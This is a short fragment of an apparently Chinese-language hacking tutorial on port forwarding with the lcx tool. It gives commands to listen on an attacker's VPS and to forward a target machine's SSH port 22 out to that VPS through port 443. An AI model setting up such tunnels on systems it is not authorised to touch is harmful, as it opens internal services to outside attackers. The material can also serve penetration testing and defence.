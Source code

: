 ```bash
./lcx -m 2 -p1 443 -h2 VPS的IP -p2 1234

//监听，把外部到443端口的流量转发到本地的1234端口
```

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/portmap%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%911.png)

到目标机器上执行：

```bash
./lcx -m 3 -h1 目标机器的IP -p1 22 -h2 VPS的IP -p2 443
//把目标机器的22端口转到vps的443端口
```

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/portmap%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%913.png)
